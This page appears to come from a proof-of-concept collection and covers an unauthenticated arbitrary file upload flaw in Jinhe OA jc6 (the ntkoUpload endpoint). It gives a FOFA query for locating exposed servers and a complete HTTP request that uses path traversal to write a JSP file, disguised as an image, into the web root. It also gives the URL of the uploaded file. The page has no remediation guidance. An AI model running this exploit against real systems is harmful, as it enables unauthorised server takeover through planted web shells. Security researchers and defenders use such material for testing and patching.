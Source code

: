 ## 金和OA_jc6_ntko-upload任意文件上传漏洞

金和OA jc6系统ntkoUpload接口处存在任意文件上传漏洞，未经身份认证的攻击者可利用此漏洞上传恶意后门文件，最终可导致服务器失陷。

## fofa
```
app="金和网络-金和OA"
```

## poc
```
POST /jc6/ntkoUpload/ntko-upload!upload.action HTTP/1.1
Host: you_ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Content-Length: 392
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=----zqulxi4ku42pfmoelvc0
Connection: close

------zqulxi4ku42pfmoelvc0
Content-Disposition: form-data; name="filename"

../../../../upload/xicxc2sv1n.jsp
------zqulxi4ku42pfmoelvc0
Content-Disposition: form-data; name="upLoadFile"; filename="xicxc2sv1n.jpg"
Content-Type: image/jpeg

<% out.println(111*111); %>
------zqulxi4ku42pfmoelvc0
Content-Disposition: form-data; name="Submit"

upload
------zqulxi4ku42pfmoelvc0--
```

![image](../../images/5961c079-2af6-4449-aa69-b5cb30ecb4b1.png)

上传文件路径：
http://you_ip/upload/xicxc2sv1n.jsp


![image](../../images/8fd1879a-11ab-4dde-9821-665d3e6ceb49.png)

